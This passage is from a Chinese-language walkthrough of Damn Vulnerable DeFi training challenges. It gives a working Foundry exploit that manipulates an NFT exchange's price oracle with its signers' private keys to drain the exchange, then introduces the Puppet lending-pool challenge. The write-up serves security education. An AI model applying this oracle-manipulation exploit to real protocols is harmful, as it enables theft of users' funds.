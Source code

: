 
完整的流程图如下所示：

![image](https://pic.imgdb.cn/item/654e661cc458853aef746b45.jpg)

首先通过操纵预言机降低nft单价让player购买，再操纵预言机将nft价格提升让player卖出即完成攻击，代码如下：
```solidity
function testExploit() public{
        /*Code solution here*/
        oracle1 = vm.addr(0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9);
        oracle2 = vm.addr(0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48);

        postPrice(0.0001 ether);

        vm.startPrank(player);
        uint256 id = exchange.buyOne{value: 0.0001 ether}();
        vm.stopPrank();

        uint256 exchangeBalance = address(exchange).balance;
        postPrice(exchangeBalance);

        vm.startPrank(player);
        nftToken.approve(address(exchange), id);
        exchange.sellOne(id);
        vm.stopPrank();

        postPrice(INITIAL_NFT_PRICE);

        validation();
    }

function postPrice(uint256 price) public{
        vm.startPrank(oracle1);
        oracle.postPrice('DVNFT', price);
        vm.stopPrank();
        vm.startPrank(oracle2);
        oracle.postPrice('DVNFT', price);
        vm.stopPrank();
    }
```

## Challenge 8 - Puppet

### 合约

- PuppetPool：提供borrow方法，供用户使用eth购买token，token的价格来自于uniswap

### 测试

- 部署DamnValuableToken合约，部署UniswapV1Factory UniswapV1Exchange合约，完成exchange的初始化
- 部署PuppetPool合约，传入DamnValuableToken和UniswapV1Exchange合约
- 向UniswapV1Exchange中提供token与eth 1:1 的流动性
- 设置player和pool合约的token余额分别为PLAYER_INITIAL_TOKEN_BALANCE和POOL_INITIAL_TOKEN_BALANCE
- 执行测试脚本
- 期望player的nonce为1，pool中的token余额为0，player中的token余额大于POOL_INITIAL_TOKEN_BALANCE
